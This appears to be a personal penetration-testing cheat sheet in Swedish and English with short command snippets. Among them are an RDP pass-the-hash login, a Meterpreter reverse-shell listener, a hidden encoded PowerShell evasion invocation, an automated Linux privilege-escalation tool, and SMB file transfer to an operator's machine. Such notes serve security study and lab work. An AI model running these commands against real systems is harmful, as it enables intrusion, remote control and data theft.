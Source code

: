 #### Linux RDP:
``` bash
rdesktop -u <username> 192.168.224.196

xfreerdp /u:username /v:192.168.224.196 /cert:ignore /d:domain.com /pth:hash
```
#### Windows Host-file:
``` powershell
C:\Windows\System32\drivers\etc
```
### Metasploit Listener:
``` bash
sudo msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.X.X;set LPORT XXX;run;"
```
### Powershell Evasion Command:
```powershell
powershell.exe -NoP -NonI -W Hidden -Exec Bypass -encodedCommand
```
### Unzippa gz:
``` bash
sudo gzip -d 
```

### Traitor Auto Linux Privesc:
```
traitor -a -p <userpass>
```
### Head:
``` bash
head -n 1000 input.txt > output.txt
```
### Radera list-entries som börjar med X:
``` bash
sed -i '/^test/d' lista.txt
```
### File Transfer from Windows with SMB
``` bash
1. Starta SMB på Linux:
sudo impacket-smbserver <mappnamn> . -smb2support

2. Kopiera över filen från Windows:
copy <filepath> \\<linux-ip>\<mappnamn>

3. Döda sessionen på Linux:
sudo kill -9 $(ps -A | grep python | awk '{print $1}')
```
### File transfer from Windows with SCP:
``` powershell
scp <file> crabfeather@192.168.45.X:<remotepath>
```
### SSH-key Permissions:
``` bash
chmod 600 <key>
```
### Windows Runas:
``` powershell
runas /user:<username> <program>
```
- Add "/netonly" for only using that users credentials for net activities